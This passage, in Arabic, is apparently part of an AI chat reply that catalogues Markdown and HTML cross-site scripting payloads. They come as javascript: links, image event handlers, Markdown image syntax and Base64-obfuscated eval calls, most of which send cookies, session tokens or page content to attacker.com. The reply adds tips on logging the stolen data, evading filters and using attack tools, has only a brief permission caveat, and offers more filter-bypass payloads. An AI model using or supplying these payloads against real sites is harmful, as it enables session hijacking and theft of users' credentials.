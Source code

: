 2. حقن باستخدام روابط JavaScript:
- [Click](javascript:alert('XSS')): ينفذ تنبيهًا عند النقر.
- [Click](javascript:fetch('http://attacker.com/log?c='+document.cookie)): يرسل ملفات تعريف الارتباط عند النقر.
- [Click](javascript:document.location='http://attacker.com'): يعيد توجيه المستخدم عند النقر.
- [Click](javascript:new Image().src='http://attacker.com/log?d='+document.domain): يرسل النطاق عند النقر.
- [Click](javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})): يرسل رمز الجلسة عند النقر.

3. حقن باستخدام وسوم صور أو أحداث:
- <img src=x onload="alert('XSS')">: ينفذ تنبيهًا عند تحميل الصورة.
- <img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">: يرسل ملفات تعريف الارتباط عند تحميل الصورة.
- <img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">: يرسل النطاق عند فشل تحميل الصورة.
- <img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">: يرسل محتوى الصفحة.
- <img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">: يرسل رمز الجلسة عند تمرير المؤشر.

4. حقن باستخدام صيغ Markdown للصور:
- ![alt](x onload=alert('XSS')): ينفذ تنبيهًا عند تحميل الصورة.
- ![alt](x onload=fetch('http://attacker.com/log?c='+document.cookie)): يرسل ملفات تعريف الارتباط.
- ![alt](x onerror=fetch('http://attacker.com/log?d='+document.domain)): يرسل النطاق.
- ![alt](x onload=document.location='http://attacker.com'): يعيد توجيه المستخدم.
- ![alt](x onload=new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')): يرسل رمز الجلسة.

5. حقن مع التعتيم:
- <script>eval(atob('YWxlcnQoJ1hTUycp'))</script>: يفك تشفير Base64 لتنفيذ تنبيه.
- [Click](javascript:eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))): يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
- <img src=x onload="alert(String.fromCharCode(88,83,83))">: يستخدم رموز ASCII.
- <script>setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)</script>: يؤخر إرسال البيانات.
- ![alt](x onload=eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))): يفك تشفير Base64 في صورة.



---

**نصائح إضافية**:
- **اختبار مكتبة Markdown**: حاول تحديد مكتبة Markdown المستخدمة (مثل Marked، Showdown) عبر اختبار ميزات محددة (مثل دعم HTML أو الروابط).
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو `ngrok` لتسجيل البيانات، وتأكد من دعم طلبات GET وPOST.
- **تجاوز الفلاتر**: جرب تغيير حالة الأحرف (مثل `<SCRIPT>`)، استخدام أحداث غير شائعة (مثل `onfocus`)، أو تعتيم الشيفرة بـ Base64 أو ASCII.
- **اختبار نقاط الإدخال**: ركز على التعليقات، المنشورات، أوصاف الملفات الشخصية، ومعلمات URL التي تُعرض كـ Markdown.
- **الأدوات**: استخدم **Burp Suite** لمراقبة الطلبات، **XSStrike** لتوليد الحقن، أو **Selenium** لمحاكاة التفاعل مع الحقن.
- **القيود**: تحقق من سياسات CSP (Content Security Policy) التي قد تحظر تنفيذ JavaScript أو الطلبات الخارجية.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Stored XSS Payloads" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل Markdown XSS في منصات معينة مثل GitHub)، أخبرني وسأقدم ردًا مخصصًا!
